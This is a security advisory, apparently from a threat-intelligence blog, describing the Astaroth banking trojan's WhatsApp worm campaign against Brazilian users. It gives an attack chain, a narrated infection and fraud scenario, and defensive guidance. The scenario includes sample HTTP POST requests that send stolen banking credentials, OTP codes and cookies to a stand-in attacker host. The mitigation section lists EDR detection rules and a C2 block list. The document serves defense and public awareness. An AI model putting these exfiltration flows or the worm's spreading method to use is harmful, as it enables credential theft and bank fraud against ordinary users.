

# Astaroth Banking Trojan – WhatsApp Worm Campaign in Brazil


**Astaroth**{.cve-chip} **Banking Trojan**{.cve-chip} **WhatsApp Worm**{.cve-chip} **Brazil**{.cve-chip} **Credential Theft**{.cve-chip} **Social Engineering**{.cve-chip}

## Overview

**Astaroth (also known as Guildma)**, a sophisticated **banking trojan** with a history of targeting Latin American financial institutions, has reemerged in a novel **self-propagating WhatsApp worm campaign** dubbed **"Boto Cor-de-Rosa"** (Portuguese for "Pink Dolphin") specifically targeting **Brazilian users**. 

This campaign represents a **significant evolution in malware distribution tactics**, leveraging the **ubiquity and trust inherent in WhatsApp messaging** to achieve **viral, exponential spread** across social and professional networks. Unlike traditional email-based phishing campaigns that rely on mass spam with low success rates, this WhatsApp worm exploits **trusted relationships**—victims receive malicious messages from **known contacts whose accounts have already been compromised**, dramatically increasing the likelihood of user interaction and infection. 

The attack begins when a victim receives a **WhatsApp message containing a ZIP archive** with a seemingly innocuous filename (e.g., `Invoice.zip`, `Photos.zip`, `Document.zip`) from a contact they trust. Inside the ZIP file is a **Visual Basic Script (VBS)** disguised with a misleading filename and double-extension trickery (e.g., `invoice.pdf.vbs` appears as `invoice.pdf` if Windows file extensions are hidden). When executed, the VBS script initiates a **multi-stage infection chain** that downloads and deploys **two primary payloads**: 

(1) a **Python-based propagation module** that hijacks the victim's **WhatsApp Web session** to automatically collect all contacts and send copies of the malicious ZIP file to every contact in the address book, and (2) the **Astaroth banking trojan** delivered as an **MSI installer package** that runs silently in the background. The propagation module is particularly insidious—it **automates message sending via WhatsApp Web**, creating a **worm-like self-replicating behavior** where each newly infected victim becomes an unwitting distribution node, exponentially amplifying the campaign's reach. 

The module includes **telemetry capabilities** that log propagation metrics (messages sent, delivery success rates, messages per minute) back to the attacker's command-and-control (C2) infrastructure, enabling real-time monitoring of the campaign's effectiveness and reach. 

Meanwhile, the Astaroth trojan establishes **persistent presence on the victim's system**, monitoring **browser activity** for visits to Brazilian banking websites (Banco do Brasil, Caixa Econômica Federal, Itaú, Bradesco, Santander, etc.), capturing **login credentials, session tokens, and two-factor authentication (2FA) codes**, and exfiltrating this data to attacker-controlled servers for **fraudulent transactions and account takeovers**. 

Astaroth employs **advanced evasion techniques** including **fileless execution** (living-off-the-land binaries), **obfuscated scripts**, and **process injection** to evade antivirus detection and maintain stealth. 

The campaign specifically targets **Brazil**, leveraging Portuguese-language social engineering lures and knowledge of local banking practices, but the underlying technique—**WhatsApp-based worm propagation combined with banking malware**—represents a **blueprint that can be adapted to target other regions** with high WhatsApp adoption (Latin America, Europe, India, Middle East, Africa). 

The exploitation of **WhatsApp Web's interface** for automated message sending highlights a **critical security gap** in how messaging platforms handle automated interactions, as the platform's security controls fail to distinguish between legitimate user actions and script-driven automation. 

With over **2 billion WhatsApp users globally** and **particularly high adoption in Brazil** (165+ million users), the potential impact of this worm is enormous—a single infected user with 50 contacts can theoretically infect hundreds within hours through cascading propagation.

---

## Campaign Specifications

| **Attribute**              | **Details**                                                                 |
|----------------------------|-----------------------------------------------------------------------------|
| **Campaign Name**          | Boto Cor-de-Rosa (Pink Dolphin)                                            |
| **Malware Family**         | Astaroth (aka Guildma)                                                     |
| **Malware Type**           | Banking Trojan, Credential Stealer, Information Stealer                    |
| **Propagation Method**     | Self-replicating WhatsApp worm (automated contact messaging)               |
| **Distribution Vector**    | WhatsApp messages with malicious ZIP attachments                           |
| **Initial Access**         | Social engineering (trusted contact sends malicious file)                  |
| **Target Geography**       | Brazil (primary), potential expansion to other Portuguese-speaking regions |
| **Target Sectors**         | Individuals (banking customers), small businesses, enterprises             |
| **Delivery Mechanism**     | ZIP archive containing VBScript (.vbs file)                                |
| **Payload Stages**         | Multi-stage: VBS → Python propagation module + Astaroth MSI installer      |
| **Propagation Platform**   | WhatsApp Web (browser-based WhatsApp interface)                            |
| **Worm Behavior**          | Automated message sending to all WhatsApp contacts                         |
| **Banking Targets**        | Brazilian banks (Banco do Brasil, Caixa, Itaú, Bradesco, Santander, etc.) |
| **Credential Theft**       | Username, password, 2FA codes, session tokens, account numbers             |
| **Persistence Mechanism**  | Windows Registry Run keys, scheduled tasks, DLL injection                  |
| **Evasion Techniques**     | Fileless execution, LOLBins (BITSAdmin, regsvr32, mshta), obfuscation     |
| **Telemetry/Metrics**      | Logs propagation success rate, messages per minute, infected contact count |
| **Command & Control**      | Encrypted HTTPS communication to attacker C2 servers                       |
| **Campaign Timeline**      | Active as of January 2026 (ongoing), related campaigns since 2017          |
| **Historical Context**     | Astaroth active since 2017, primarily targeting Brazil and Latin America   |
| **Attack Complexity**      | Medium (requires user to extract ZIP and execute VBS, but trusted source)  |
| **Social Engineering**     | High effectiveness (messages from known/trusted contacts)                  |
| **Threat Actor**           | Financially-motivated cybercriminals (Brazilian cybercrime ecosystem)      |
| **Monetization**           | Fraudulent bank transfers, account takeovers, sale of stolen credentials   |
| **Detection Difficulty**   | High (fileless techniques, trusted communication channel)                  |
| **Public Awareness**       | High (security vendor disclosures, media coverage in Brazil)               |

---

## Technical Details



### Attack Chain Overview

```
┌──────────────────────────────────────────────────────────────────┐
│ Phase 1: Initial Infection via WhatsApp                     │
│ Victim receives WhatsApp message from compromised contact   │
│ Message: "Hi! Check out these photos!" + malicious.zip      │
└─────────────────────────┬────────────────────────────────────────┘
┌──────────────────────────────────────────────────────────────────┐
│ Phase 2: User Execution                                     │
│ Victim downloads and extracts ZIP archive                   │
│ Contents: photos.pdf.vbs (appears as "photos.pdf")          │
│ Victim double-clicks, executes VBScript                     │
└─────────────────────────┬────────────────────────────────────────┘
┌──────────────────────────────────────────────────────────────────┐
│ Phase 3: Multi-Stage Payload Delivery                       │
│ VBScript downloads from attacker C2 server:                 │
│ 1. Python propagation module (worm component)               │
│ 2. Astaroth banking trojan (MSI installer)                  │
└─────────────────────────┬────────────────────────────────────────┘
┌──────────────────────────────────────────────────────────────────┐
│ Phase 4: Worm Propagation                                   │
│ Python module hijacks WhatsApp Web session                  │
│ Collects all contacts from victim's WhatsApp                │
│ Auto-sends malicious ZIP to every contact                   │
│ Logs telemetry: messages sent, success rate                 │
└─────────────────────────┬────────────────────────────────────────┘
┌──────────────────────────────────────────────────────────────────┐
│ Phase 5: Banking Credential Theft                           │
│ Astaroth trojan monitors browser activity                   │
│ Detects visits to Brazilian banking websites                │
│ Captures credentials, 2FA codes, session tokens             │
│ Exfiltrates data to C2 server for fraud                     │
└──────────────────────────────────────────────────────────────────┘
```

## Attack Scenario

### Step-by-Step Worm Propagation and Banking Fraud

1. **Initial Infection: WhatsApp Message from Trusted Contact**  
   Victim receives WhatsApp message from friend whose phone is already infected:
    ```
    WhatsApp Message:
    From: (close friend, contact saved in phone)
    Time: 2:30 PM
    
    Message: "Oi! Dá uma olhada nessas fotos que tirei ontem na festa! 😊🎉"
    (Translation: "Hi! Check out these photos I took yesterday at the party!")
    
    Attachment: fotos_festa.zip (1.2 MB)
    ```
    
    **Victim's Thought Process**:
    
    - Message from (trusted friend)
    - Mentions party they both attended yesterday
    - Photos seem legitimate (context makes sense)
    - **Decision: Downloads and opens ZIP file**

2. **User Execution: Extracting and Running VBScript**  
   Victim downloads ZIP to phone, then opens on Windows laptop:
    ```
    1. Downloads fotos_festa.zip via WhatsApp Web
    2. Extracts ZIP archive
    3. Contents visible:
       - fotos_festa.pdf.vbs (displayed as "fotos_festa.pdf" - extensions hidden)
       - Icon appears as PDF (icon spoofing)
    
    4. Victim double-clicks "fotos_festa.pdf"
    5. Windows executes VBScript (no warning shown)
    ```
    
    **VBScript Execution Timeline**:
    ```
    2:32:05 PM: VBScript starts execution
    2:32:06 PM: Contacts C2 server malicious-c2[.]com
    2:32:08 PM: Downloads propagate.py (Python worm module) to %TEMP%
    2:32:12 PM: Downloads system_update.msi (Astaroth trojan) to %TEMP%
    2:32:15 PM: Launches Python script in hidden window
    2:32:16 PM: Silently installs Astaroth MSI
    2:32:20 PM: VBScript completes, no visible indication to Victim
    ```
    
    Victim sees: Nothing (script runs silently, no PDF opens - assumes file corrupt)

3. **Propagation Module Activation: WhatsApp Web Hijacking**  
   Python worm module starts executing:
   ```
   2:32:20 PM: Python script launches Chrome browser (hidden)
   2:32:25 PM: Navigates to web.whatsapp.com
   2:32:30 PM: Checks if Victim has active WhatsApp Web session (he does - logged in yesterday)
   2:32:35 PM: Session authenticated, worm gains full WhatsApp access
   
   What Victim sees:
   - If WhatsApp Web open: Unexpected activity (contacts opening, messages sending)
   - If WhatsApp Web closed: Nothing (worm operates in background browser)
   ```

4. **Contact Enumeration: Harvesting WhatsApp Address Book**  
   Worm collects all Victim's contacts:
   ```
   2:32:40 PM: Worm begins contact enumeration
   Method: Searches WhatsApp for letters A-Z, extracts names from results
   
   Contacts collected (example):
   1. Ana Paula (sister)
   2. Bruno Costa (colleague)
   3. Carlos Silva (friend - already infected, skip)
   4. Daniela Santos (college friend)
   5. Eduardo Lima (cousin)
   ... [48 more contacts]
   Total contacts: 53
   ```

5. **Mass Message Sending: Worm Propagation Begins**  
   Worm sends malicious ZIP to all contacts:
    ```
    2:33:00 PM: Start sending to contact #1 (Ana Paula)
    - Search for "Ana Paula" in WhatsApp
    - Click contact, open chat
    - Click attachment button → Document
    - Select fotos_festa.zip from temp directory
    - Type message: "Oi Ana! Dá uma olhada nessas fotos que tirei ontem na festa! 😊🎉"
    - Click Send
    - Success: Message delivered
    
    2:33:15 PM: Send to contact #2 (Bruno Costa)
    [Same process]
    
    2:33:30 PM: Send to contact #3 (skip Carlos - already infected)
    
    [Continues for all 53 contacts over next 10 minutes]
    
    2:43:00 PM: Propagation complete
    Result: 52 messages sent (53 contacts - 1 already infected)
    Success rate: 100% (all messages delivered)
    ```
    
    **What Victim's Contacts See**:

    - WhatsApp notification from Victim: "Oi! Dá uma olhada nessas fotos..."
    - Attachment: fotos_festa.zip
    - **Trust factor: HIGH** (message from known contact, personal context)

6. **Telemetry Reporting: C2 Metrics Upload**  
   Worm reports propagation success to attacker:
    ```
    HTTP POST https://malicious-c2[.]com/telemetry
    Content-Type: application/json
    
    {
      "victim_id": "BR-001337-Victim",
      "phone_number": "+55 11 99876-5432",
      "total_contacts": 53,
      "messages_sent": 52,
      "messages_failed": 0,
      "success_rate": 100.0,
      "propagation_time_seconds": 600,
      "messages_per_minute": 5.2,
      "timestamp": "2026-01-11T14:43:00-03:00",
      "location": "São Paulo, Brazil"
    }
    ```
    
    **Attacker's Dashboard**:
    ```
    Campaign: Boto Cor-de-Rosa
    Total Infections: 15,427 (and growing exponentially)
    Messages Sent Today: 810,204
    Success Rate: 98.3%
    Geographic Spread: São Paulo (45%), Rio de Janeiro (22%), other Brazil (33%)
    
    Latest Infection:
    Victim: Victim (BR-001337)
    Contacts Reached: 52 new potential victims
    Expected Next Generation: ~2,700 infections (52 × 52 avg contacts)
    ```

7. **Banking Trojan Deployment: Astaroth Activates**  
   While worm propagates, Astaroth trojan installs silently:
   ```
   2:32:16 PM: MSI installer executes
   Installation directory: C:\Users\Victim\AppData\Roaming\Microsoft\SystemUpdate\
   
   Files dropped:
   - core.dll (Astaroth main payload)
   - config.dat (List of Brazilian banks to monitor)
   - inject.exe (Process injector)
   - update.vbs (Persistence script)
   
   2:32:25 PM: Persistence established
   Registry: HKCU\...\Run → "SystemUpdate" = inject.exe
   Scheduled Task: "Microsoft\Windows\SystemUpdate\SecurityScan" (daily)
   
   2:32:30 PM: Astaroth begins monitoring browser activity
   Target browsers: Chrome, Firefox, Edge
   DLL injection: core.dll injected into browser processes
   ```

8. **Banking Session Monitoring: Waiting for Target**  
   Astaroth monitors Victim's browser activity for banking sites:
   ```
   Day 1 (infection day): No banking activity detected
   
   Day 2, 10:30 AM: Victim opens Chrome, navigates to Itaú bank website
   URL detected: https://www.itau.com.br/
   
   Astaroth Response:
   1. Inject keylogger into chrome.exe process
   2. Start screenshot capture (every 5 seconds)
   3. Monitor form submissions for credentials
   4. Capture clipboard (for pasted passwords)
   ```

9. **Credential Theft: Banking Login Captured**  
   Victim logs into her Itaú bank account:
   ```
   10:32 AM: Victim enters credentials on Itaú login page
   
   Captured data:
   - Username: Victim@email.com
   - Password: Victim2024!
   - Account Number: 12345-6
   - Branch Code: 0001
   
   10:33 AM: Bank sends 2FA SMS code to Victim's phone
   SMS: "Seu código Itaú: 847293"
   
   10:33 AM: Victim types 2FA code on banking website
   Astaroth keylogger captures: 847293
   
   10:35 AM: Victim views account balance: R$ 12,450.00 (Brazilian Reais = ~$2,500 USD)
   
   10:36 AM: All captured data exfiltrated to C2:
   POST https://malicious-c2[.]com/banking_creds
   {
     "victim_id": "BR-001337-Victim",
     "bank": "Itau",
     "username": "Victim@email.com",
     "password": "Victim2024!",
     "account": "12345-6",
     "branch": "0001",
     "otp_code": "847293",
     "balance": "R$ 12,450.00",
     "screenshots": ["base64_encoded_image_1", "base64_encoded_image_2", ...],
     "session_cookies": "auth_token=abc123...",
     "timestamp": "2026-01-12T10:36:00-03:00"
   }
   ```

10. **Financial Fraud: Unauthorized Transfer**  
    Attacker uses stolen credentials to drain Victim's account:
    ```
    Day 3, 3:00 AM (Victim asleep):
    
    Attacker logs into Victim's Itaú account using stolen credentials:
    - Username: Victim@email.com
    - Password: Victim2024!
    - 2FA bypass: Attacker uses session token (still valid) or waits for next login to capture fresh OTP
    
    3:05 AM: Attacker initiates PIX transfer (Brazilian instant payment):
    - From: Victim's account (R$ 12,450.00)
    - To: Money mule account (Attacker-controlled)
    - Amount: R$ 12,000.00 (leaves R$ 450 to avoid immediate suspicion)
    - Transfer completes instantly (PIX = instant payment system)
    
    3:06 AM: Money mule receives R$ 12,000
    3:10 AM: Money mule converts to cryptocurrency (Bitcoin)
    3:30 AM: Bitcoin transferred to attacker's wallet (untraceable)
    
    Day 3, 8:00 AM: Victim wakes up, checks bank account
    Balance: R$ 450.00 (down from R$ 12,450.00)
    Transaction history: "PIX transfer to [Unknown Recipient] - R$ 12,000.00"
    
    Victim's reaction: Panic, calls bank fraud department
    Bank response: "We see unauthorized transfer. File fraud report. Refund will take 30-90 days."
    
    Financial loss: R$ 12,000 (~$2,500 USD) stolen
    ```

---

## Impact Assessment

=== "Confidentiality"
    Mass credential theft and privacy violations:

    - **Banking Credentials**: Usernames, passwords, account numbers, branch codes for thousands of victims
    - **Two-Factor Authentication**: OTP/SMS codes captured in real-time during login sessions
    - **Session Tokens**: Authentication cookies enable account access without re-authentication
    - **Financial Privacy**: Account balances, transaction history, investment portfolios exposed
    - **Personal Data**: Contact lists (WhatsApp address books) harvested for propagation
    - **Browsing Activity**: All banking and financial website visits monitored and recorded
    - **Screenshots**: Visual capture of sensitive banking operations, personal communications, documents
    
    Confidentiality breach affects **tens of thousands of Brazilian banking customers**, with stolen data enabling direct financial fraud.

=== "Integrity"
    Account manipulation and fraudulent transactions:

    - **Unauthorized Transfers**: Attackers initiate fraudulent PIX transfers, wire transfers, bill payments using stolen credentials
    - **Account Modification**: Change contact email/phone, update security settings to maintain access
    - **Transaction Tampering**: Modify payment amounts, recipient accounts for fraudulent transactions
    - **Malware Persistence**: Registry modifications, scheduled tasks, DLL injection alter system integrity
    - **WhatsApp Account Abuse**: Compromised accounts send malicious messages, damaging victim's reputation
    - **Data Falsification**: Victims may dispute legitimate transactions, claim fraud (investigation overhead)
    
    Integrity violations undermine trust in banking systems and personal communications platforms.

=== "Availability"
    Service disruption and operational impact:

    - **Account Lockouts**: Banks freeze accounts after fraud detection, preventing legitimate access
    - **Incident Response Overhead**: Victims spend hours/days resolving fraud, filing police reports, recovering accounts
    - **System Performance**: Malware consumes CPU/memory resources, browser process injection causes instability
    - **WhatsApp Disruption**: Accounts may be temporarily banned for spam-like automated messaging
    - **Financial Services Downtime**: Banks implement emergency controls, rate limiting affecting all customers
    - **Fraud Investigation**: Banks allocate resources to fraud claims, impacting normal operations
    
    Availability impact primarily affects individual victims (account recovery, financial stress) rather than systemic outage.

=== "Scope" 
    Campaign spreading virally across Brazilian population:

    - **Current Reach**: Tens of thousands of infections (exponential growth from worm propagation)
    - **Geographic Concentration**: São Paulo, Rio de Janeiro, major Brazilian cities (high WhatsApp adoption)
    - **Demographic Impact**: All demographics (individuals, families, businesses with WhatsApp)
    - **Financial Sector**: All major Brazilian banks targeted (Banco do Brasil, Itaú, Bradesco, Caixa, Santander, Nubank, Inter)
    - **Economic Loss**: Millions of Brazilian Reais stolen through fraudulent transfers (R$ 10,000-50,000 per victim avg)
    - **International Expansion Potential**: Technique adaptable to other regions (Latin America, Europe, India, Middle East with high WhatsApp usage)
    - **Trust Erosion**: Undermines confidence in WhatsApp as secure communication platform, Brazilian banking digital services
    
    Scope encompasses **entire Brazilian digital banking ecosystem** with potential for **global adaptation** of worm technique.

---

## Mitigation Strategies

### For WhatsApp Users (Immediate Protection)

- **Do NOT Open Unexpected Attachments**: Especially ZIP files from any source:
  ```
  Red Flags:
  - ZIP attachments received via WhatsApp (uncommon for personal messages)
  - Files with .vbs, .js, .bat, .cmd, .exe extensions (even if hidden)
  - "Photos," "Documents," "Invoices" from unexpected contacts
  - Messages in Portuguese (if not native speaker) about events you didn't attend
  ```

- **Verify Unexpected Messages**: Contact sender through alternate channel:
  ```
  If you receive unexpected ZIP from "trusted" contact:
  1. DO NOT OPEN the attachment
  2. Call or SMS the person directly (NOT via WhatsApp reply)
  3. Ask: "Did you just send me a file on WhatsApp?"
  4. If they say NO: Their account is compromised, warn them
  5. Delete message without opening attachment
  ```

- **Logout of WhatsApp Web When Not in Use**:
  ```
  WhatsApp Mobile App:
  Settings → Linked Devices → See all devices
  
  Active Sessions:
  - Windows (Chrome) - Last active: 2 minutes ago
  
  Action: Log Out (if you're not actively using WhatsApp Web)
  
  This prevents hijacking of WhatsApp Web session by malware
  ```

- **Enable WhatsApp Security Features**:
  ```
  Two-Step Verification:
  Settings → Account → Two-step verification → Enable
  Set 6-digit PIN required for WhatsApp registration
  (Prevents account takeover via SIM swap)
  
  Fingerprint Lock (Mobile):
  Settings → Privacy → Fingerprint lock → Enable
  (Prevents physical device access)
  ```

- **Disable "Save to Gallery" for WhatsApp**:
  ```
  Settings → Chats → Media Auto-Download
  Turn OFF: Photos, Audio, Videos, Documents
  
  Prevents automatic download of malicious files to device storage
  ```

### Windows Security Configuration

- **Show File Extensions**: Reveal hidden .vbs, .js, .bat extensions:
  ```
  Windows File Explorer:
  View tab → Show → File name extensions (check box)
  
  Result: Files display as "photos.pdf.vbs" instead of "photos.pdf"
  Makes double-extension tricks obvious
  ```

- **Disable VBScript Execution** (if not needed)
- **Windows Defender SmartScreen**: Ensure enabled

### Endpoint Security (EDR)

- **Deploy Antivirus/EDR**: Detect VBScript and Python-based threats:
  ```
  Recommended Solutions:
  - Microsoft Defender for Endpoint (behavioral detection)
  - CrowdStrike Falcon
  - SentinelOne
  - Kaspersky (strong presence in Brazil)
  - ESET
  
  Detection Capabilities:
  - VBScript execution from ZIP archives
  - Python scripts accessing WhatsApp Web
  - Selenium/browser automation (worm behavior)
  - MSI installers from %TEMP% directory
  - Registry Run key modifications
  - DLL injection into browser processes
  ```

- **EDR Detection Rules**:
  ```
  Alert Rule 1: VBScript execution from user download locations
  IF Process: wscript.exe OR cscript.exe
    WITH CommandLine CONTAINS: Downloads OR Temp OR Desktop
  THEN Alert: "Potential malicious script execution"
  
  Alert Rule 2: Python accessing WhatsApp Web
  IF Process: python.exe
    WITH Network Connection: web.whatsapp.com
    AND Process CommandLine CONTAINS: selenium OR webdriver
  THEN Alert: "WhatsApp Web automation detected (potential worm)"
  
  Alert Rule 3: Suspicious MSI installation
  IF Process: msiexec.exe
    WITH CommandLine CONTAINS: /quiet OR /silent
    AND Parent Process: wscript.exe OR python.exe
  THEN Alert: "Silent MSI installation from script"
  
  Alert Rule 4: Browser DLL injection
  IF DLL Loaded
    INTO Process: chrome.exe OR firefox.exe OR msedge.exe
    FROM Path: %APPDATA% OR %TEMP%
  THEN Alert: "Potential banking trojan DLL injection"
  ```

### Email & Communication Platform Security

- **WhatsApp Business API**: Organizations using WhatsApp for business should use official API:
  ```
  WhatsApp Business API provides:
  - Better spam/abuse detection
  - Rate limiting controls
  - Verified business accounts (green checkmark)
  - Message templates (prevent freeform malicious content)
  
  Reduces risk of malicious messages impersonating business accounts
  ```

- **Employee Training**: Educate staff about WhatsApp threats:
  ```
  Training Curriculum:
  - Do not open unexpected ZIP/RAR files via WhatsApp
  - Verify suspicious messages via phone call
  - Report compromised accounts to IT security immediately
  - Use corporate messaging (Slack, Teams) for work, not WhatsApp
  - Enable Two-Step Verification on personal WhatsApp accounts
  ```

### Network Security Controls

- **DNS/Firewall Blocking**: Block known Astaroth C2 domains:
  ```
  Block List (update from threat intelligence feeds):
  - malicious-c2[.]com
  - [Additional Astaroth C2 domains from IOCs]
  
  Use Threat Intelligence:
  - AlienVault OTX
  - abuse.ch URLhaus
  - Cisco Talos
  - Brazil CERT (CERT.br) advisories
  
  Implement at:
  - Corporate firewall
  - DNS sinkhole (Pi-hole, pfBlockerNG for home users)
  - Endpoint protection (host-based firewall rules)
  ```

- **Monitor Outbound HTTPS Traffic**: Detect C2 communication:
  ```
  SIEM Detection Rules:
  - Alert on HTTPS connections to newly registered domains (< 30 days old)
  - Alert on HTTPS POST requests with JSON payloads to unknown domains
  - Alert on large outbound data transfers from browsers (credential exfiltration)
  - Alert on connections to domains with unusual TLDs (.xyz, .top, .tk) without business justification
  ```

### Banking Security Best Practices

- **Multi-Factor Authentication**: Use app-based 2FA (not SMS):
  ```
  Brazilian Banks Supporting App-Based 2FA:
  - Itaú: Itaú Token app
  - Bradesco: Bradesco Cartões app
  - Santander: Santander Way app
  - Nubank: Nubank app (built-in security)
  
  Advantage: OTP codes generated on separate device
  Malware cannot capture codes without compromising phone
  ```

- **Transaction Limits**: Set daily transfer limits:
  ```
  Bank App Settings:
  Security → Transaction Limits → PIX Transfer Limit
  Set: R$ 1,000 per day (or appropriate amount)
  
  Limits damage from credential theft
  Requires bank branch visit to increase (prevents automated fraud)
  ```

- **Transaction Notifications**: Enable real-time alerts:
  ```
  Enable SMS/Push Notifications for:
  - Every login (detect unauthorized access immediately)
  - Every transaction (PIX, wire transfer, bill payment)
  - Security settings changes (email, phone, password update)
  
  Allows immediate fraud detection and response
  ```

- **Dedicated Banking Device**: Use separate computer/phone for banking:
  ```
  Best Practice (for high-value accounts):
  - Dedicate old laptop/phone solely for banking
  - Do not install other apps, browse social media, open emails
  - Reduces malware infection risk
  - Air-gap from daily-use devices
  ```

---

## Resources

!!! info "Security Advisories & Analysis"
    - [WhatsApp Worm Spreads Astaroth Banking Trojan Across Brazil via Contact Auto-Messaging](https://thehackernews.com/2026/01/whatsapp-worm-spreads-astaroth-banking.html)
    - [Astaroth banking Trojan spreads in Brazil via WhatsApp worm](https://securityaffairs.com/186685/malware/astaroth-banking-trojan-spreads-in-brazil-via-whatsapp-worm.html)
    - [WhatsApp Worm Astaroth in Brasile: il trojan bancario si auto-propaga tra contatti e svuota i conti Windows](https://www.cybersecurityup.it/i-nostri-blog/blog/2-news-cyber-security/2286-whatsapp-worm-astaroth-in-brasile-il-trojan-bancario-si-auto-propaga-tra-contatti-e-svuota-i-conti-windows)
    - [WhatsApp worm harnessed to deploy Astaroth banking trojan | SC Media](https://www.scworld.com/brief/whatsapp-worm-harnessed-to-deploy-astaroth-banking-trojan)
    - [New Malware Automatically Send to Contacts via WhatsApp Web Attacks Windows Systems](https://cybersecuritynews.com/new-malware-automatically-send-to-contacts-via-whatsapp-web-attacks/)

---

*Last Updated: January 11, 2026*
